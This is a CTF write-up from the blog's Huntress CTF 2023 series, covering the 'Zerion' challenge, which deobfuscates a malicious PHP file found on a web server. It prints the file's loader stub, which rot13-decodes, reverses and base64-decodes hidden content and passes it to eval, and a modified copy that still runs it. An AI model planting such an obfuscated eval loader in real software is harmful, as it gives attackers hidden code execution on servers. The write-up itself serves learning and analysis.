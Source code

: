 ```yaml
---
title: "Zerion"
date: 2023-10-02T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Malware', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/hot_off_the_press) 

### We observed some odd network traffic, and found this file on our web server... can you find the strange domains that our systems are reaching out to?

This one gave us a PHP file that was obfuscated using a few different techniques which we can glean by reading the file in a text editor to try to understand what it is doing:

We can see the operations being performed at the beginning of the code: 
![zerion1](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/zerion1.png?raw=true)
```PHP
 $L6CRgr=array(base64_decode("L3gvaQ=="),base64_decode("eA=="),base64_decode(strrev(str_rot13($L66Rgr[1]))))
```
From this we know that we need to:
1. Use a Rot13 cypher
2. reverse the strings
3. Base64 decode 

There are a few different methods of getting to the answer here, however, I went to [CyberChef](https://cyberchef.org/) and uploaded the file and was able to get the flag like so:

![zerion2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/zerion2.png?raw=true)

Alternatively, you could modify the php script like so:
```PHP
<?php $L66Rgr=explode(base64_decode("Pz4="),file_get_contents(__FILE__)); $L6CRgr=array(base64_decode("L3gvaQ=="),base64_decode("eA=="),base64_decode(strrev(str_rot13($L66Rgr[1]))));echo implode(" ",$L6CRgr);$L7CRgr = "d6d666e70e43a3aeaec1be01341d9f9d";preg_replace($L6CRgr[0],serialize(eval($L6CRgr[2])),$L6CRgr[1]);exit();?>
```
adding the :
```PHP
echo implode(" ",$L6CRgr);
```
and then run the script in the command line, grepping for the flag and retrieve it like so:
```bash
php zerion | grep  flag 
```
Or if you want to get fancy:
```bash
php zerion | egrep -oE 'flag\{[0-9a-f]{32}\}'
```

![zerion2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/zerion3.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/hot_off_the_press) 